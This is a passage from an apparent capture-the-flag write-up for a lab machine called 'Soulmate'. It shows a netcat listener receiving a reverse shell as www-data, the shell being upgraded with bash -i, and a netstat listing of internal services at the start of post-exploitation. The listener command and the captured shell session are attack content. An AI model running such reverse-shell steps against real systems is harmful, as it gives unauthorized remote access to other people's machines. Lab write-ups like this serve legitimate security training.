 ![reverse shell](/images/Soulmate/navigatetorev.png)

We got a reverse shell !!

```sh
$ rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.117] from (UNKNOWN) [10.10.11.86] 41604
Linux soulmate 5.15.0-153-generic #163-Ubuntu SMP Thu Aug 7 16:37:18 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 19:45:50 up  1:44,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ bash -i
bash: cannot set terminal process group (1109): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soulmate:~/soulmate.htb$
```
## Post-Exploitation

### Internel Services

```sh
www-data@soulmate:~/soulmate.htb$ netstat -tulnp
netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:2222          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:39295         0.0.0.0:*               LISTEN      -                   
```